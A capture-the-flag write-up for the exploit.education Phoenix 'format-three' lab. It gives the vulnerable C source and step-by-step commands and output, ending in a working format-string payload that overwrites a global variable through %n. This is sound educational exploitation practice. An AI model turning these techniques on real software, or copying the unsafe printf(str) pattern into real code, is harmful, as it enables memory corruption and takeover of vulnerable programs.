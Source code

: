 # FORMAT THREE

## SOURCE CODE

```c
/*
 * phoenix/format-three, by https://exploit.education
 *
 * Can you change the "changeme" variable to a precise value?
 *
 * How do you fix a cracked pumpkin? With a pumpkin patch.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int changeme;

void bounce(char *str) {
  printf(str);
}

int main(int argc, char **argv) {
  char buf[4096];
  printf("%s\n", BANNER);

  if (read(0, buf, sizeof(buf) - 1) <= 0) {
    exit(EXIT_FAILURE);
  }

  bounce(buf);

  if (changeme == 0x64457845) {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  } else {
    printf(
        "Better luck next time - got 0x%08x, wanted 0x64457845!\n", changeme);
  }

  exit(0);
}
```

## STRATEGY

The challenge is similar to format-two, but now we need to overwrite *`changeme`* with a specific value.
Like in the previous exercise the first thing we need is the changeme address and find the buffer position in the stack, then we will use the "standard way" (because symbol '$', used to direct access to parameters is disabled) and injecting the 4 addresses each separated with 4 junk bytes that serve as arguments for %x. We also need to do the math in order to write the correct number of byte. We will do the math by hand because the current value of *`changeme`* is printed (easy to read) and because is a good exercise but in the next challenge we will let python do the math and we will see how to write a clean and more elegant script.

## EXPLOIT

1. *`changeme`* address:

```shell
user@phoenix-amd64:/opt/phoenix/i486$ objdump -t format-three | grep changeme
08049844 g     O .bss	00000004 changeme
```
	address: 0x08049844

2. buffer position in the stack:

```shell
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "AAAA" + ".%x"*15' | ./format-three
Welcome to phoenix/format-three, brought to you by https://exploit.education
AAAA.0.0.0.f7f81cf7.f7ffb000.ffffd628.8048556.ffffc620.ffffc620.fff.0.41414141.2e78252e.252e7825.78252e78
Better luck next time - got 0x00000000, wanted 0x64457845!
```
	buffer is at 12th position (so we need 11 %x to access)

3. Now we are ready to set the exploit and find the changeme value to start calculating field widths.

```shell
python -c 'import struct; print struct.pack("I",0x08049844) + "JUNK" + struct.pack("I",0x08049845) + "JUNK" + struct.pack("I",0x08049846) + "JUNK" + struct.pack("I",0x08049847) + "%x"*11 + "%n"' | ./format-three
Welcome to phoenix/format-three, brought to you by https://exploit.education
D�JUNKE�JUNKF�JUNKG�000f7f81cf7f7ffb000ffffd6288048556ffffc620ffffc620fff0
Better luck next time - got 0x00000052, wanted 0x64457845!
```
	the initial value is 0x52

4. Let's do the math byte a byte. Just subtract from target values the previous ones except for the first one to which we subtract 0x52.
When you have negative result just add 0x100 like in the first case: 0x45 - 0x52 = negative ! ----> 0x145 - 0x52 = positive!

```
Hex value:
145 – 52 = F3

Decimal value:
325 – 82 = 243	
```
```
Hex value:
78 – 45 = 33

Decimal value:
120 – 69 = 51
```
```
Hex value:
145 – 78 = CD

Decimal value:
325 – 120 = 205
```
```
Hex value:
64 – 45 = 1F

Decimal value:
100 – 69 = 31
```

5. Final exploit:
```shell
python -c 'import struct; print struct.pack("I",0x08049844) + "JUNK" + struct.pack("I",0x08049845) + "JUNK" + struct.pack("I",0x08049846) + "JUNK" + struct.pack("I",0x08049847) + "%x"*10 + "%244x" + "%n" + "%51x" + "%n" + "%205x" + "%n" + "%31x" + "%n"' | ./format-three
```

ALTERNATIVE:

we have written one byte at a time but in the same way it is possible to write 2 at a time, the result is:

```shell
python -c 'import struct; print struct.pack("I",0x08049844) + "JUNK" + struct.pack("I",0x08049846) + "%x"*10 + "%30724x" + "%n" +"%60416x" + "%n"' | ./format-three
```
